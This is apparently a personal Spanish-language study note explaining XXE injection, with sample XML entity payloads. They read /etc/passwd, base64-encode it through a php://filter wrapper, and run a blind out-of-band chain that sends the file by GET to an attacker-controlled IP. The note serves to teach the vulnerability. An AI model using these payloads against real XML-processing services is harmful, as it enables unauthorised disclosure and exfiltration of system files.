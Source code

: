 -----------------
- Tags: #explotación #owasp_top10 #web #bash 
----------------
# Definición

> XXE: XML External Entity Injection. Es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

## Estructura

Esta es la estructura de un formato xml que se envía en una petición del servidor web:

![[Pasted image 20230624223738.png|900]]

![[Pasted image 20230624223854.png|900]]

Cuando se habla de estructuras en XML, se deben hablar de las entidades:

- **Entidades:** Son una forma de representar un elemento de datos, sin referenciar a los datos como tal, todo ello en un documento XML. Existen varios tipos de entidades:
	-> Genéricas / Customizadas
	-> Externas (XXE).
	-> Predefinidas: Como por ejemplo *&lt;*, *&gt*;

Ejemplo de entidades: 

![[Pasted image 20230624224656.png|900]]

Para crear una entidad se debe mantener la siguiente estructura:

```XML
<!DOCTYPE foo [<!ENTITY myName "sebax">]>
```

Donde:

* *myName:* Corresponde al nombre de la entidad.
* *sebax:* Corresponde al valor de la entidad.

Dado lo anterior, podríamos leer los archivos del sistema como por ejemplo usando la siguiente expresión:

```XML
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
```

* File es un _**Wraper**_

La idea es crear entidades que permitan listar contenidos privilegiados y hacer más cositas.

### Wrapers

- file -> Permite representar archivos mostrándolos completos.
- php://filter/convert.base64-encode/resource=/etc/passwd -> Permite representar el archivo en una sola cadena en base 64.

Cuando no deja declarar la entidad en la estructura del XML, o cuando no veo el output del comando que estoy inyectando, se puede declarar y llamar en la misma definición del DOCTYPE, de la siguiente manera:

```XML
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.20.23/testXXE"> %myFile;]>
```

También, cuando el output no se representa en la respuesta del serviidor, se pueden crear archivos externos desde la máquina atacante para que ejecute el comando y lo envíe en la petición al servidor, como por ejemplo:

```XML
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.20.23/?file=%file;'>">
%eval;
%exfil;
```

La primera entidad *file*, se encarga de hacer la lectura del archivo que queremos (para el ejemplo el archivo /erc/passwd) y el segundo *exfil*, se encarga de hacer el envío de la lectura de la primera entidad por GET al servidor indicado (para el ejemplo la máquina de atacante, es decir mi IP).

